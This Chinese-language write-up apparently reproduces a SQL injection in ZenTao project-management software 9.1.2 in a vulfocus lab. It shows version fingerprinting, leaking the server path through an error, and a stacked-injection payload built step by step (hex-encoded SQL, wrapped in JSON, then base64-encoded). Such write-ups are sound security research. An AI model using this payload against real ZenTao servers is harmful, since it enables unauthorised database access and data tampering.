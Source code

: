 # 禅道zentaopms-9.1.2-sql SQL注入 by  [corp0ra1](https://github.com/corp0ra1)


# 复现

## 漏洞详情

*禅道 项目管理软件 是国产的开源项目管理软件,专注研发项目管理,内置需求管理、任务管理、bug管理、缺陷管理、用例管理、计划发布等功能,实现了软件的完整生命周期管理。 漏洞出现在zentao\lib\base\dao\dao.class.php中的orderBy函数没有对limit部分做任何限制就直接拼接。也就是说，使用了orderBy这个函数的地方都有可能产生过滤。*

## 漏洞环境

该漏洞环境已整合到vulfocus靶场中，可一键直接启动。 

![Untitled](Untitled.png)

## 复现过程

1. 获取目标版本信息：http://118.193.36.37:10363/zentaopms/www/index.php?mode=getconfig
    1. {"version":"9.1.2","requestType":"GET","requestFix":"-………………
2. 通过错误路由引发报错，进而获取服务器绝对路径：http://118.193.36.37:10363/zentaopms/www/index.php?m=user&f=login1
    1. /www/zentaopms/framework/base/router.class.php
3. 漏洞点：orderBy处理过程中存在SQL注入问题，可堆叠注入。拿其中一个payload演示编码步骤如下：
    1. 选择所用payload语句：`select sleep(5)`
    2. 将SQL语句hex编码：`0x73656c65637420736c656570283529`
    3. 将hex编码后的参数插入json中：`{"orderBy":"order limit 1;SET @SQL=0x73656c65637420736c656570283529;PREPARE pord FROM @SQL;EXECUTE pord;-- -","num":"1,1","type":"openedbyme"}`
    4. 将json数据进行base64编码：`eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTtTRVQgQFNRTD0weDczNjU2YzY1NjM3NDIwNzM2YzY1NjU3MDI4MzUyOTtQUkVQQVJFIHBvcmQgRlJPTSBAU1FMO0VYRUNVVEUgcG9yZDstLSAtIiwibnVtIjoiMSwxIiwidHlwZSI6Im9wZW5lZGJ5bWUifQ==`